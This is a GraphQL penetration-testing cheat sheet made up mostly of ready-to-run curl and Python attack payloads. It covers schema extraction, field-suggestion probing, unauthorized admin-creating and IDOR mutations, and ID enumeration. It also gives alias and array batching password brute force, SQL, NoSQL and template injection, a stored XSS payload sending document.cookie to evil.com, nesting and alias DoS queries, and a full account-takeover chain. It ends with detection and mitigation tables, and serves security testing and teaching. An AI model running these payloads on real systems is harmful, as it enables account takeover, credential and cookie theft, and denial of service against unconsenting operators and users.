

# GraphQL Pentesting

> **GraphQL is a query language for APIs with a single endpoint that lets clients request exactly the data they need — making it uniquely vulnerable to schema extraction, batching-based brute force, and deeply nested DoS attacks.**

---

## 🧠 What Is It?

**Analogy:** REST APIs are like a restaurant with a fixed menu — you order "burger and fries" and get exactly that predetermined plate. GraphQL is like a custom sandwich shop where **you** specify every ingredient. The flexibility is great for developers, but from a security perspective: if the shop doesn't verify what you're allowed to order, you might end up asking for ingredients from the kitchen that you were never supposed to touch.

The key security differences from REST:
- **Single endpoint** — all attacks go through `/graphql`
- **Introspection** — the API can describe its own schema (like asking for the menu recipe book)
- **Batching** — 100 login attempts can be sent in **one HTTP request**, defeating rate limits
- **Deeply nested queries** — can cause server DoS with a single request
- **Field suggestions** — even with introspection off, GraphQL hints at valid field names

---

## 🏗️ How It Works

```
Client sends: POST /graphql
              Content-Type: application/json
              {"query": "{ user(id: 1) { name email } }"}

Server:
1. Parse query
2. Validate against schema
3. Execute resolvers (functions that fetch data)
4. Return exactly requested fields
```

### GraphQL Core Concepts

**Types:**
```graphql
type User {
  id: ID!           # ! = non-nullable (required)
  username: String!
  email: String!
  isAdmin: Boolean  # nullable (may be absent)
  posts: [Post]     # List type
}

type Post {
  id: ID!
  title: String!
  author: User      # Nested type (creates traversal path for IDOR)
  comments: [Comment]
}
```

**Operations:**
```graphql
# Query — read data
query GetUser {
  user(id: "1234") {
    username
    email
  }
}

# Mutation — write data
mutation UpdateEmail {
  updateEmail(userId: "1234", email: "attacker@evil.com") {
    success
    user {
      email
    }
  }
}

# Subscription — real-time
subscription OnNewMessage {
  messageAdded(roomId: "general") {
    content
    sender {
      username
    }
  }
}
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Finding GraphQL Endpoints

```bash
# Common paths
/graphql
/api/graphql
/v1/graphql
/v2/graphql
/gql
/query
/graph
/graphiql           # Interactive IDE — never expose in prod
/playground         # Apollo Playground — same issue
/altair

# Check for GraphQL by sending introspection
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __typename }"}' | jq .
# Response: {"data":{"__typename":"Query"}} = GraphQL confirmed

# Fuzz with ffuf
ffuf -w /usr/share/seclists/Discovery/Web-Content/graphql.txt \
  -u https://target.com/FUZZ \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __typename }"}' \
  -mc 200

# Burp: send all POST requests to all /api/* paths, check response
# fingerprint: {"data":, {"errors":, "extensions":
```

---

### Introspection — Schema Extraction

Introspection is a built-in GraphQL feature where the API describes its own schema. Finding it enabled on production is immediately high severity.

```bash
# Quick introspection test
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name } } }"}' | jq .

# Full schema dump (the golden payload)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } } } query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } }"
  }' | jq . > full_schema.json

# Extract all type names
jq '.data.__schema.types[].name' full_schema.json | sort

# Extract all queries
jq '.data.__schema.types[] | select(.name=="Query") | .fields[].name' full_schema.json

# Extract all mutations
jq '.data.__schema.types[] | select(.name=="Mutation") | .fields[].name' full_schema.json

# Extract all fields for User type
jq '.data.__schema.types[] | select(.name=="User") | .fields[].name' full_schema.json

# Find deprecated fields (often still functional!)
jq '.data.__schema.types[].fields[]? | select(.isDeprecated==true) | .name' full_schema.json
```

---

### Introspection Disabled — Bypass Techniques

Many production APIs disable introspection but remain exploitable via:

#### Technique 1: Field Suggestions

GraphQL returns "Did you mean X?" errors even without introspection:

```bash
# Probe for field names on User type
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ user(id: 1) { usernam } }"}' | jq .errors
# Response: "Did you mean \"username\"?"

# Probe for mutations
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "mutation { delet }"}' | jq .errors
# Response: "Did you mean \"deleteUser\"? \"deletePost\"?"

# This reveals real field names — map the entire schema this way!
```

#### Technique 2: clairvoyance — Automated Schema Inference

```bash
# Install
pip3 install clairvoyance

# Basic run
clairvoyance https://target.com/graphql \
  -w /usr/share/seclists/Discovery/Web-Content/graphql-fields.txt \
  -o schema.json

# With authentication
clairvoyance https://target.com/graphql \
  -H "Authorization: Bearer eyJhbGc..." \
  -w graphql-fields-custom.txt \
  -o schema.json

# Wordlists to use:
# /usr/share/seclists/Discovery/Web-Content/graphql-fields.txt
# https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/wordlists/
```

#### Technique 3: Disable Introspection Bypass via Batching

Some implementations disable introspection for single queries but not batched:

```bash
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '[
    {"query": "{ __schema { types { name } } }"}
  ]' | jq .
```

---

### Schema Analysis — Finding Juicy Targets

After extracting the schema, look for:

```bash
# Sensitive mutations to target
jq '.data.__schema.types[] | select(.name=="Mutation") | .fields[] | .name' schema.json \
  | grep -iE "delete|remove|admin|role|password|reset|make|promote|ban|disable|update.*user|create.*admin"

# Dangerous query targets
jq '.data.__schema.types[] | select(.name=="Query") | .fields[] | .name' schema.json \
  | grep -iE "admin|users|all|list|export|dump|debug"

# Sensitive fields on types
jq '.data.__schema.types[] | .fields[]? | select(.name | test("password|secret|token|hash|key|admin|ssn|credit|card|cvv"; "i")) | .name' schema.json

# Types with ID fields (IDOR targets)
jq '.data.__schema.types[] | select(.fields != null) | {type: .name, id_fields: [.fields[] | select(.name | test("id"; "i")) | .name]}' schema.json
```

---

### Mutation Testing

```bash
# List all mutations discovered
# Example mutations found: createUser, updateUser, deleteUser, makeAdmin, resetPassword

# Test makeAdmin without proper auth
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <REGULAR_USER_TOKEN>" \
  -d '{
    "query": "mutation { makeAdmin(userId: \"999\") { id username isAdmin } }"
  }' | jq .

# Account takeover via password reset mutation
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "mutation { resetPassword(email: \"victim@target.com\") { success token } }"
  }' | jq .
# If token returned without email verification → account takeover

# Update another user's email (IDOR via mutation)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  -d '{
    "query": "mutation { updateUser(id: \"victim-user-id\", email: \"attacker@evil.com\") { id email } }"
  }' | jq .

# Delete another user's data
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <ATTACKER_TOKEN>" \
  -d '{
    "query": "mutation { deletePost(id: \"another-users-post-id\") { success } }"
  }' | jq .

# Create admin user (if createUser doesn't check role)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <REGULAR_USER_TOKEN>" \
  -d '{
    "query": "mutation { createUser(username: \"backdoor\", password: \"P@ssw0rd\", role: \"admin\", isAdmin: true) { id token } }"
  }' | jq .
```

---

### IDOR via GraphQL IDs

```bash
# Numeric ID enumeration
for ID in $(seq 1 20); do
  echo -n "ID $ID: "
  curl -s -X POST https://target.com/graphql \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer <ATTACKER_TOKEN>" \
    -d "{\"query\": \"{ user(id: \\\"$ID\\\") { id username email isAdmin } }\"}" \
    | jq -r '.data.user | "\(.username) - \(.email)"' 2>/dev/null
done

# Relay-style Base64 Global IDs
# GraphQL Relay framework uses: base64("TypeName:id")
echo "User:1234" | base64
# dXNlcjoxMjM0
# Try: user(id: "dXNlcjoxMjM0")

# Decode IDs from responses
echo "dXNlcjoxMjM0" | base64 -d
# User:1234

# Encode different IDs to try
for ID in $(seq 1 10); do
  ENCODED=$(echo -n "User:$ID" | base64)
  echo -n "User:$ID ($ENCODED): "
  curl -s -X POST https://target.com/graphql \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer <ATTACKER_TOKEN>" \
    -d "{\"query\": \"{ user(id: \\\"$ENCODED\\\") { username email } }\"}" \
    | jq -r '.data.user.email // "not found"'
done
```

---

### Batching Attacks — Rate Limit Bypass for Brute Force

This is one of the most impactful GraphQL-specific attacks. **100 login attempts in a single HTTP request**.

```bash
# Array batching (if endpoint accepts JSON arrays)
# Generate 100 login attempts
python3 -c "
import json
passwords = ['password', 'admin', '123456', 'letmein', 'qwerty', 'welcome', 'monkey', 'Password1', 'P@ssw0rd', 'dragon']
batch = [{'query': f'mutation {{ login(username: \"admin\", password: \"{p}\") {{ token userId }} }}'} for p in passwords * 10]
print(json.dumps(batch))
" > batch_payload.json

curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d @batch_payload.json | jq .

# Alias batching (single query, multiple aliases — bypasses array batching protection)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "mutation {
      a1: login(username: \"admin\", password: \"password\") { token }
      a2: login(username: \"admin\", password: \"admin\") { token }
      a3: login(username: \"admin\", password: \"123456\") { token }
      a4: login(username: \"admin\", password: \"letmein\") { token }
      a5: login(username: \"admin\", password: \"P@ssw0rd\") { token }
      a6: login(username: \"admin\", password: \"qwerty\") { token }
      a7: login(username: \"admin\", password: \"welcome\") { token }
      a8: login(username: \"admin\", password: \"dragon\") { token }
      a9: login(username: \"admin\", password: \"monkey\") { token }
      a10: login(username: \"admin\", password: \"master\") { token }
    }"
  }' | jq .

# Script: generate alias batching payload from wordlist
python3 -c "
import sys
passwords = open('/usr/share/wordlists/rockyou.txt').read().splitlines()[:100]
aliases = []
for i, p in enumerate(passwords):
    p_escaped = p.replace('\"', '\\\\\"').replace('\\\\', '\\\\\\\\')
    aliases.append(f'a{i}: login(username: \"admin\", password: \"{p_escaped}\") {{ token userId }}')
query = 'mutation {\\n' + '\\n'.join(aliases) + '\\n}'
import json
print(json.dumps({'query': query}))
" > alias_bruteforce.json

curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d @alias_bruteforce.json | python3 -c "
import sys, json
data = json.load(sys.stdin)
for k, v in data.get('data', {}).items():
    if v and v.get('token'):
        print(f'SUCCESS! {k}: token={v[\"token\"]}')
"
```

---

### Injection in GraphQL Arguments

```bash
# SQLi in string argument
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <TOKEN>" \
  -d '{
    "query": "{ user(name: \"admin'"'"' OR 1=1--\") { id username email password } }"
  }' | jq .

# Time-based SQLi
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <TOKEN>" \
  -d '{"query": "{ user(name: \"admin'"'"'; SELECT SLEEP(5)--\") { id } }"}' 

# NoSQLi (MongoDB backend)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "{ login(username: {$gt: \"\"}, password: {$gt: \"\"}) { token } }"
  }' | jq .

# SSTI (if descriptions/templates are rendered)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <TOKEN>" \
  -d '{
    "query": "mutation { updateBio(bio: \"{{7*7}}\") { bio } }"
  }' | jq .
# If response contains "49" → SSTI confirmed

# XSS via stored GraphQL mutation (stored XSS vector)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <TOKEN>" \
  -d '{
    "query": "mutation { updateProfile(name: \"<script>fetch('"'"'https://evil.com/?c='"'"'+document.cookie)</script>\") { name } }"
  }' | jq .
```

---

### DoS via Query Complexity

```bash
# Deep nesting DoS
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "{ user(id: 1) { posts { comments { author { posts { comments { author { posts { comments { author { posts { comments { author { username } } } } } } } } } } } } } }"
  }'

# Field amount DoS — request every field thousands of times via aliases
python3 -c "
aliases = ['f{}: username'.format(i) for i in range(1000)]
query = '{ user(id: 1) { ' + ' '.join(aliases) + ' } }'
import json
print(json.dumps({'query': query}))
" | curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d @-

# Circular fragment DoS (if not properly handled)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "fragment A on User { ...B } fragment B on User { ...A } { user(id: 1) { ...A } }"
  }'

# Introspection DoS — the introspection query itself is expensive
# Send 10 simultaneous full introspection queries
for i in $(seq 1 10); do
  curl -s -X POST https://target.com/graphql \
    -H "Content-Type: application/json" \
    -d '{"query": "{ __schema { types { fields { type { fields { type { fields { name } } } } } } } }"}' &
done
wait
```

---

### Subscription Security Testing

```bash
# Test unauthenticated subscription (using wscat)
# Install: npm install -g wscat
wscat -c "wss://target.com/subscriptions"
# Once connected:
{"type": "connection_init", "payload": {}}
{"type": "start", "id": "1", "payload": {"query": "subscription { newMessage { content sender { username } } }"}}

# With GraphQL over WebSocket protocol
wscat -c "wss://target.com/graphql" \
  -H "Sec-WebSocket-Protocol: graphql-ws"

# Test: connect without auth token, see if subscription data flows
# If yes → unauthenticated real-time data exposure

# Check for PII in subscription data
# Common sensitive subscriptions: newOrder, paymentProcessed, userActivity, adminLog
```

---

## 💥 Exploitation Step-by-Step

### Full GraphQL Attack Chain — Account Takeover

```bash
# Target: social media API with GraphQL

# Step 1: Confirm GraphQL
curl -s -X POST https://api.social.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __typename }"}' | jq .

# Step 2: Dump schema
curl -s -X POST https://api.social.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name fields { name } } } }"}' \
  -o schema.json

# Step 3: Find sensitive mutations
jq '.data.__schema.types[] | select(.name=="Mutation") | .fields[].name' schema.json
# Found: sendPasswordReset, updateEmail, makeAdmin

# Step 4: Test sendPasswordReset — does it return the token?
curl -s -X POST https://api.social.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "mutation { sendPasswordReset(email: \"victim@social.com\") { success resetToken } }"}' | jq .
# Vulnerable response: {"data": {"sendPasswordReset": {"success": true, "resetToken": "abc123"}}}

# Step 5: Use token to reset password
curl -s -X POST https://api.social.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "mutation { resetPassword(token: \"abc123\", newPassword: \"P@ssw0rd\") { success userId } }"}' | jq .

# Step 6: Login as victim
curl -s -X POST https://api.social.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "mutation { login(email: \"victim@social.com\", password: \"P@ssw0rd\") { token } }"}' | jq .
```

---

## 🛠️ Tools

### InQL — Burp Suite Extension

```
1. Install via Burp BApp Store: InQL
2. Use Scanner tab: paste URL → Generate Schema
3. Automatically builds all queries/mutations
4. Sends each to Repeater for testing
5. Timer: test for timing-based injection
```

### graphql-cop — Security Auditor

```bash
# Install
pip3 install graphql-cop

# Run audit
graphql-cop -t https://target.com/graphql

# With auth
graphql-cop -t https://target.com/graphql \
  -H "Authorization: Bearer eyJhbGc..."

# Output: checks for
# - Introspection enabled
# - Field suggestions enabled
# - Batch queries enabled
# - Deep recursion DoS
# - Alias DoS
# - GET-based introspection
```

### GraphQL Voyager

```bash
# Local setup
npx graphql-voyager

# Or use Docker
docker run -p 3000:3000 graphql-voyager

# Import your schema.json → visual graph of all types and relationships
# Perfect for finding traversal paths to sensitive data
```

### Altair GraphQL Client

```bash
# Install desktop app or Chrome extension
# Features:
# - Built-in introspection
# - Request history
# - Environment variables (like Postman)
# - Subscription support
# - Schema documentation browser
```

---

## 🔍 Detection

| Attack | Detection Signal |
|---|---|
| Introspection queries | `__schema` or `__type` in query body |
| Batching abuse | Array or many aliases in single request |
| Deep nesting DoS | Query with many levels of nested objects |
| Field suggestion probing | Many queries with typos in field names |
| Mutation abuse | Unexpected mutations from regular users |
| IDOR via IDs | ID values in mutations not matching authenticated user |

---

## 🛡️ Mitigation

| Vulnerability | Mitigation |
|---|---|
| Introspection | Disable in production; use for dev only |
| Batching DoS | Limit query depth (max 10 levels); limit aliases per query |
| Field suggestions | Disable in production (`disableSuggestions: true` in Apollo) |
| Injection | Use parameterized queries; validate argument types |
| IDOR via mutations | Check ownership in every resolver |
| Unauthenticated subscriptions | Require auth at subscription connection |
| Missing auth on mutations | Every mutation resolver must verify JWT/session |
| Rate limiting | Query cost analysis; per-operation rate limits |

---

## 📚 References

- [HackTricks — GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
- [PortSwigger — GraphQL API vulnerabilities](https://portswigger.net/web-security/graphql)
- [OWASP GraphQL Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
- [graphql-cop](https://github.com/nicholasaleks/graphql-cop)
- [InQL Burp Extension](https://github.com/doyensec/inql)
- [clairvoyance](https://github.com/nikitastupin/clairvoyance)
- [CVE-2021-41248](https://nvd.nist.gov/vuln/detail/CVE-2021-41248) — GraphQL injection vulnerability
- [Bug Bounty — Shopify GraphQL IDOR](https://hackerone.com/reports/1063671)
- [GitLab GraphQL IDOR — $12,000 bounty](https://hackerone.com/reports/645926)
- [PayloadsAllTheThings — GraphQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
